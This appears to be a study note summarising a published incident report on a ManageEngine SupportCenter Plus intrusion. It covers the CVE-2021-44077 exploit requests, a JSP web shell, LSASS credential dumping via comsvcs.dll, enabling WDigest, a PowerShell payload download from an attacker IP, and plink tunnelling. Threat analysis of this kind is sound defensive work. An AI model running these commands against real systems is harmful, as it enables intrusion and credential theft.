


# Attack Roadmap

### [Will the Real Msiexec Please Stand Up? Exploit Leads to Data Exfiltration](https://thedfirreport.com/2022/06/06/will-the-real-msiexec-please-stand-up-exploit-leads-to-data-exfiltration/)
#### Incident Summary

<p align="center">

</p>

## Let's Summarize Each Step

#### 1. Exploit [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) in in `ManageEngine SupportCenter Plus`. The exploit looks very similar to a publicly available POC exploit on [GitHub](https://github.com/horizon3ai/CVE-2021-44077).

##### Exploit Method: RCE via two HTTP requests.
 - Request 1: POST request to /RestAPI/ImportTechnicians?step=1 contains `msiexec.exe` and was written to C:\Program Files\ManageEngine\SupportCenterPlus\bin\msiexec.exe.

 - Request 2: GET request to /RestAPI/s247action?execute=s247AgentInstallationProcess&apikey=asdasd, and invoke the uploaded `msiexec.exe`.

  

#### 2. Web Shell Deployment:
- The Malicous msiexec.exe contains encoded web shell once `msiexec.exe /i Site24x7WindowsAgent.msi EDITA1=asdasd /qn` there is a webshell file `jm2.jsp` written to `C:\Program Files\ManageEngine\SupportCenterPlus\custom\login\fm2.jsp`, this way will allow the threat actor to maintain the access with no need to execute the exploit once again.
- Now you have an access to the system through `http://<victim_ip:8080/custom/login/jm2.jsp` then you can `Execute Commands` and `View and Download files`
  
  

#### 3. System Enumeration
- Then basic enumuration is made.
  ```
  https://server.example/custom/login/fm2.jsp?cmd=arp -a
  https://server.example/custom/login/fm2.jsp?cmd=systeminfo
  https://server.example/custom/login/fm2.jsp?cmd=tasklist
  https://server.example/custom/login/fm2.jsp?cmd=wmic computersystem get domain
  ```
#### 4. Credential Dumping
- The Threat Actor Checked if the `WDigest` is Enabled because When WDigest is Enabled `LSASS` stores passwords in Plaintext.
- Check WDigest:
  ```
   powershell.exe reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
  ```
- Enable WDigest:
  ```
  powershell.exe  Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'
  ```
 - Stealing Credentials (Dumping LSASS):
   ```
   C:\windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll MiniDump [LSASS_PROC_ID] C:\windows\temp\logctl.zip full
   ``` 

 #### 5. Lateral Movement
 - Threat Actor Downloaded file.exe and wrote it to ekern.exe and this file was realy a renamed `plink.exe`
 - `plink.exe`: A command-line SSH client
   ```
   powershell.exe (New-Object System.Net.WebClient).DownloadFile('hXXp://23.81.246[.]84/file.exe', 'c:\windows\temp\ekern.exe')
   ```
   <p align="center">
   
 <p>
 
 - `Plink` was used in conjunction with a batch script `FXS.bat` to establish an SSH connection with the threat actor’s server on port `443` instead of `22`.
 - Proxied RDP Traffic: used SSH tunnel to RDP to the beachhead server.
 
 #### 6. Data Exfiltration
 - The Threat Actor Downloaded some Sensitive files like `postgres DB backup` of the ManageEngine SupportCenter Plus application using the web shell.
   
  

 - then he downloaded a certificate from the server, a Visio file, and an excel sheet for the accounts via web shell
 #### 7. Defense Evasion
 -  After Exfiltrating the LSASS dump file `logctl.zip`, the attacker deleted the dump file to hide their traces.

   

